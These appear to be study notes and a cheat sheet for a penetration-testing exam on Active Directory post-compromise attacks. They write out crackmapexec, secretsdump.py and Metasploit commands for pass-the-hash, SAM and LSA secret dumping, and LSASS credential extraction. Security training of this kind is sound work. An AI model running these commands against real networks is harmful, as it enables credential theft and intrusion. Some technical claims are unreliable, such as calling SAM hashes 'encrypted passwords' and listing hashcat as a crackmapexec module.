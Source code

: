 ### 🔒 **Attacking Active Directory: Post-Compromise Attacks**

**Objective**: Learn how to move **laterally** and **vertically** within an Active Directory (AD) environment after gaining initial access.

---

## 📝 **Summary**

1. **Pass-the-Password & Pass-the-Hash Attacks**:
    - Reuse cracked passwords or hashes to move laterally across a network.
2. **SAM Hash Dumping**:
    - Extract **hashed credentials** from compromised systems using **SAM dumps** for further exploitation.
3. **Enumerating Shares & LSA Secrets**:
    - Use **crackmapexec** to dump **shares** and **LSA secrets**, gaining access to more sensitive data.
4. **Credential Dumping Tools**:
    - Leverage tools like **Lsassy**, **hashcat**, and [**secretsdump.py**](http://secretsdump.py/) to dump credentials stored in memory.
5. **CME (CrackMapExec) Database**:
    - Store discovered credentials and hosts for further operations.

---

### **Summary of Lateral and Vertical Movement, SAM, SAM Hashes, and LSASS**

- **Lateral Movement**:
    - Moving **sideways** across the network, from one machine to another, using the same **credentials** or level of access.
    - 🖥️ **Example**: If you crack a user's password on Machine 1 and use it to log into Machine 2, you're moving laterally.
- **Vertical Movement**:
    - Moving **up** to gain **higher privileges**, such as becoming an **administrator** after starting as a regular user.
    - 🖥️ **Example**: If you start as a normal user and manage to get admin rights, you’ve moved vertically.
- **SAM (Security Account Manager)**:
    - A Windows **database** that stores **local user account information**, including **password hashes** for each user.
    - **SAM Hashes**: These are **encrypted passwords** stored in the SAM database, used to verify user logins.
    - 🖥️ **Example**: `Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b`.
- **LSASS (Local Security Authority Subsystem Service)**:
    - A Windows process that **enforces security policies** and stores **user credentials** in memory, such as passwords or Kerberos tickets.
    - **Why Important**: If you can access LSASS memory, you can **dump sensitive credentials** (like passwords) and use them to move further in the network.
- **Attack Example**:
    1. **Dump SAM hashes** from Machine 1 to get encrypted passwords.
    2. **Reuse those hashes** to log into Machine 2 (lateral movement).
    3. **Dump LSASS memory** on Machine 2 to extract admin credentials and move vertically (gaining more control).

---

---

## 📚 **Detailed Notes**

### **1. Pass-the-Password Attack**

Use this attack when you have **plaintext passwords** from a cracked account.

```bash
$ crackmapexec <ip/CIDR> -u <user> -d <domain> -p <password>

```

Look for **"Pwn3d!"** to verify successful authentication. This signifies access to the target machine.

---

### **2. Pass-the-Hash Attack**

If you only have **NTLM hashes**, pass the hash to authenticate:

```bash
$ crackmapexec smb <ip/CIDR> -u administrator -H <NTLM hash> --local-auth

```

💡 **Tip**: You can reuse hashes without needing to crack them!

---

### **3. Dumping SAM Hashes**

To retrieve **hashed passwords** stored in the **SAM database**:

- **From Metasploit**:
    
    ```bash
    msf6 > hashdump
    
    ```
    
- **From `secretsdump.py`**:
    
    ```bash
    secretsdump.py <domain>/<user>:<password>@<target_ip>
    
    ```
    
- **Using CrackMapExec**:
    
    ```bash
    crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --sam
    
    ```
    

🚨 **Critical Mention**: Be sure to verify your target’s **SAM hashes** with **"Pwn3d!"** in the output.

---

### **4. Enumerating Shares**

Find available **shares** on remote machines:

```bash
$ crackmapexec smb <ip/CIDR> -u administrator -H <hash> --local-auth --shares

```

💡 **Tip**: Look for writable shares that allow data manipulation.

---

### **5. Dumping LSA Secrets**

Extract **LSA secrets** for sensitive credentials, such as **Kerberos tickets**:

```bash
$ crackmapexec smb <ip/CIDR> -u administrator -H <hash> --local-auth --lsa

```

---

### **6. Using the Lsassy Module**

Dump credentials from **LSASS memory** using the **lsassy** module:

```bash
$ crackmapexec smb <ip/CIDR> -u administrator -H <hash> --local-auth -M lsassy

```

🚨 **Important**: Always look for **pwned credentials** dumped from LSASS.

---

### **7. Listing CrackMapExec Modules**

View available modules in **crackmapexec** for further attacks:

```bash
$ crackmapexec smb -L

```

💡 **Example**: Use **lsassy**, **wdigest**, or **hashcat** for credential attacks.

---

### **8. CME Database Usage**

After dumping credentials and hosts, store them in the **CME database** for later use:

- **To list hosts**:
    
    ```bash
    cmedb (default)(smb) > hosts
    
    ```
    
- **To list stored credentials**:
    
    ```bash
    cmedb (default)(smb) > creds
    
    ```
    

---

## 🔑 **Abbreviations & Definitions**

- **SAM (Security Account Manager)**: Stores **hashed passwords** for local user accounts.
- **LSASS (Local Security Authority Subsystem Service)**: Manages user logins and stores credentials in memory.
- **LSA Secrets**: Sensitive data in the registry storing **credentials** and **tickets**.
- **NTLM (NT LAN Manager)**: Authentication protocol used in Windows environments.
- **CrackMapExec (CME)**: Post-exploitation tool used for **Active Directory** attacks.
- **Pass-the-Hash Attack**: Attack where the **hash** is passed directly to authenticate without needing the plaintext password.
- **Kerberos**: Authentication protocol used in Active Directory for ticketing services.

---

## 🚨 **Critical Mentions & Exam Traps**

- **🚨 Always watch for "Pwn3d!"**: This is your green light that you’ve successfully compromised the target.
- **🚨 Use hashes to save time**: Rather than cracking passwords, pass **NTLM hashes** for lateral movement.
- **🚨 Verify flags and modules**: Ensure the correct flags and modules are used in **crackmapexec** to avoid unnecessary errors.
- **🚨 Know your output**: Pay close attention to **expected output** when dumping credentials to avoid misinterpreting results.

---

## 🛠️ **Cheat Sheet for Quick Reference**

### 🖥️ **Key Commands**:

- **Pass-the-Password**:
    
    ```bash
    crackmapexec smb <ip/CIDR> -u <user> -d <domain> -p <password>
    
    ```
    
- **Pass-the-Hash**:
    
    ```bash
    crackmapexec smb <ip/CIDR> -u administrator -H <hash> --local-auth
    
    ```
    
- **Dump SAM Hashes**:
    
    ```bash
    crackmapexec smb <ip/CIDR> -u <user> -H <hash> --local-auth --sam
    
    ```
    
- **Enumerate Shares**:
    
    ```bash
    crackmapexec smb <ip/CIDR> -u administrator -H <hash> --local-auth --shares
    
    ```
    
- **Dump LSA Secrets**:
    
    ```bash
    crackmapexec smb <ip/CIDR> -u administrator -H <hash> --local-auth --lsa
    
    ```
    
- **List CrackMapExec Modules**:
    
    ```bash
    crackmapexec smb -L
    
    ```
    

---

### 💡 **Pro Tips**:

- **💡 Command output matters**: Look for **"Pwn3d!"** in your outputs.
- **💡 Keep modules handy**: Use the **`L`** flag in **crackmapexec** to list all available modules and decide which attack vector to use.
- **💡 Keep LSA secrets in mind**: They hold valuable **credentials** that can be used for further attacks, like **Golden Ticket attacks**.

---
